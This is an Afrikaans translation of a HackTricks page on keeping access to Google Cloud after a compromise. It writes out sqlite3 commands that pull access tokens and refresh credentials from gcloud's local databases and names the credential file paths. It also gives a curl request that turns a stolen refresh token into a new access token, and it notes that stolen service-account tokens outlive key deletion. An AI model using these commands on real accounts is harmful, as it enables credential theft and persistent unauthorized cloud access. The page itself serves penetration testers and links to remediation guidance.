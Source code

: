 # GCP - Nie-svc Volharding

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

Hierdie is nuttige tegnieke sodra jy op een of ander manier sekere GCP-legitimasie of 'n masjien wat in 'n GCP-omgewing loop, gekompromitteer het.

## Token Ontvoering

### Geauthentiseerde Gebruiker Tokens

Om die **huidige token** van 'n gebruiker te kry, kan jy hardloop:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Kyk op hierdie bladsy hoe om **hierdie token direk te gebruik met gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Om die besonderhede te kry om 'n nuwe toegangstoken te **genereer**, hardloop: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Dit is ook moontlik om hernuwingsleutels te vind in **`$HOME/.config/gcloud/application_default_credentials.json`** en in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Om 'n nuwe verfriste toegangskode te kry met die **hernuwingsleutel**, kliënt-ID, en kliënt-geheim hardloop:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Die geldigheid van die hernuwingsleutels kan bestuur word in **Admin** > **Sekuriteit** > **Google Cloud-sessiebeheer**, en dit is standaard op 16 uur ingestel, alhoewel dit op nooit verval gestel kan word:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Outeursvloei

Die outentiseringsvloei wanneer iets soos `gcloud auth login` gebruik word, sal 'n venster in die blaaier oopmaak en nadat al die reikwydtes aanvaar is, sal die blaaier 'n versoek soos hierdie een stuur na die http-poort wat oopgemaak is deur die instrument:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Dan sal gcloud die staat en kode gebruik met 'n paar hardgekoppelde `client_id` (`32555940559.apps.googleusercontent.com`) en **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) om die **finale verfris-token data** te kry.

{% hint style="danger" %}
Let daarop dat die kommunikasie met localhost in HTTP is, so dit is moontlik om die data te onderskep om 'n verfris-token te kry, maar hierdie data is net een keer geldig, so dit sal nutteloos wees, dit is makliker om net die verfris-token uit die lêer te lees.
{% endhint %}

### OAuth Onderwerpe

Kry al die OAuth-onderwerpe deur uit te voer:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

### Diensrekeninge

Net soos met geauthentiseerde gebruikers, as jy daarin slaag om die **privaatsleutel-lêer te korrumppeer** van 'n diensrekening, sal jy dit **gewoonlik so lank as wat jy wil kan benader**.\
Maar, as jy die **OAuth-token** van 'n diensrekening steel, kan dit selfs nog interessanter wees, want selfs al is hierdie tokens standaard net vir 'n uur nuttig, as die **slagoffer die privaat API-sleutel verwyder, sal die OAuth-token nog geldig bly totdat dit verval**.

### Metadata

Vanzelfsprekend, solank as wat jy binne 'n masjien hardloop in die GCP-omgewing, sal jy in staat wees om **die diensrekening wat aan daardie masjien geheg is, te benader deur die metadata-eindpunt te kontak** (let daarop dat die OAuth-tokens wat jy in hierdie eindpunt kan benader, gewoonlik beperk word deur scopes).

### Regstellings

Sommige regstellings vir hierdie tegnieke word verduidelik in [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Verwysings

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks-swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
